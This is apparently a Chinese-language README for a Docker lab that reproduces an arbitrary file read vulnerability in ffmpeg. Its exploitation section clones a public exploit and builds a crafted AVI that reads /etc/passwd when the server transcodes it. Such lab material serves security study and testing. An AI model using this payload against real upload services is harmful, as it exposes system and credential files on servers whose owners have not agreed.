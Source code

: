 # ffmpeg 任意文件读取漏洞环境

参考资料：

 - http://bobao.360.cn/learning/detail/4032.html
 - https://hackerone.com/reports/242831
 - https://github.com/neex/ffmpeg-avi-m3u-xbin

## 环境搭建

编译及启动环境

```
docker-compose build
docker-compose up -d
```

环境启动后监听8080端口，访问`http://your-ip:8080/`即可查看。

## 漏洞利用

漏洞原理不再赘述，直接下载exp，并生成payload：

```
# 下载exp
git clone https://github.com/neex/ffmpeg-avi-m3u-xbin
cd ffmpeg-avi-m3u-xbin

# 生成payload
./gen_xbin_avi.py file:///etc/passwd exp.avi
```

生成exp.avi，在`http://your-ip:8080/`上传。后端将会将你上传的视频用ffmpeg转码后显示，转码时因为ffmpeg的任意文件读取漏洞，可将文件信息读取到视频中：

![](01.png)

你也可以执行`docker-compose exec web bash`进入本环境内部，测试ffmpeg。